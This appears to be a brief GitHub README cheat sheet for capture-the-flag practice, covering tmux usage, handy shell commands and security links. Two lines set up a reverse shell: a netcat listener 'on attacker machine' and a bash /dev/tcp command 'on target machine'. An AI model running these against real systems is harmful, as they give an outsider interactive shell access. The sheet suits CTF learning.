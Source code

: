 # Hello Capture The Flag (CTF)
=====

## tmux
1. `ctrl+b :` to enter tmux command prompt
2. `$ tmux split-window vim /etc/passwd`
3. `: swap-window -s 3 -t 0`
4. `ctrl+b t`to open clock

## Nice Commands
1. `$ ls -lahR` (read permission, file size, recursively)
2. `$ wordlist` (path to wordlists)
3. `$ locate *2john` (what else john can do?)
4. `$ nc -l -p 12345` on attacker machine
5. `$ bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'` on target machine
6. `$ find / -type f -iname '*flag*' 2>/dev/null`
7. `$ python -m SimpleHTTPServer 8000`
8. `$ ifconfig tun0`

## Useful Links
1. [GTFOBins - Exploitable Unix binaries](https://gtfobins.github.io/)
2. [CVE Details - CVE security vulnerability database](https://www.cvedetails.com/)
3. [CyberChef - Encryption, Encoding, Compression & Data Analysis](https://gchq.github.io/CyberChef/)
